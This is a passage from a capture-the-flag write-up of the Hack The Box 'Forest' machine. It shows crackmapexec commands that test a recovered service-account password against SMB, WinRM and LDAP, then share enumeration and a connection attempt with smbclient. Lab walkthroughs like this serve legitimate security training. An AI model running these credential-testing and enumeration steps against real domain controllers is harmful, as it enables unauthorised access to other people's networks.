 - Since i have credentials for user svc-alfresco then i will try to check wherethere i can login and get shell by using tool called crackmapexec

```
┌──(blackninja㉿arena)-[~/CTF/HTB/Forest]
└─$ crackmapexec smb $IP -u 'svc-alfresco' -p 's3rvice'                
SMB         10.10.10.161    445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.10.10.161    445    FOREST           [+] htb.local\svc-alfresco:s3rvice 
                                                                                                                                                                                                                                   
┌──(blackninja㉿arena)-[~/CTF/HTB/Forest]
└─$ crackmapexec winrm $IP -u 'svc-alfresco' -p 's3rvice'
SMB         10.10.10.161    5985   FOREST           [*] Windows 10.0 Build 14393 (name:FOREST) (domain:htb.local)
HTTP        10.10.10.161    5985   FOREST           [*] http://10.10.10.161:5985/wsman
WINRM       10.10.10.161    5985   FOREST           [+] htb.local\svc-alfresco:s3rvice (Pwn3d!)
                                                                                                                                                                                                                                   
┌──(blackninja㉿arena)-[~/CTF/HTB/Forest]
└─$ crackmapexec ldap $IP -u 'svc-alfresco' -p 's3rvice'
SMB         10.10.10.161    445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
LDAP        10.10.10.161    445    FOREST           [-] htb.local\svc-alfresco:s3rvice Error connecting to the domain, are you sure LDAP service is running on the target ?

```
- From above, you can see that i can login with winrm in which it mean that i can use tool like evil-winrm to login in
- Let enumerate shares before login with winrm

```
┌──(blackninja㉿arena)-[~/CTF/HTB/Forest]
└─$ crackmapexec smb $IP -u 'svc-alfresco' -p 's3rvice' --shares
SMB         10.10.10.161    445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.10.10.161    445    FOREST           [+] htb.local\svc-alfresco:s3rvice 
SMB         10.10.10.161    445    FOREST           [+] Enumerated shares
SMB         10.10.10.161    445    FOREST           Share           Permissions     Remark
SMB         10.10.10.161    445    FOREST           -----           -----------     ------
SMB         10.10.10.161    445    FOREST           ADMIN$                          Remote Admin
SMB         10.10.10.161    445    FOREST           C$                              Default share
SMB         10.10.10.161    445    FOREST           IPC$                            Remote IPC
SMB         10.10.10.161    445    FOREST           NETLOGON        READ            Logon server share 
SMB         10.10.10.161    445    FOREST           SYSVOL          READ            Logon server share
```
- let check those share with smbclient

```
┌──(blackninja㉿arena)-[~/CTF/HTB/Forest]
└─$ smbclient -L \\\\10.10.10.161\\NETLOGON -U 'svc-alfresco%s3rvice'     

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.10.161 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
                                                                                                                                                                                                                                   
┌──(blackninja㉿arena)-[~/CTF/HTB/Forest]
└─$ smbclient \\\\10.10.10.161\\NETLOGON -U 'svc-alfresco%s3rvice' 
Try "help" to get a list of possible commands.
```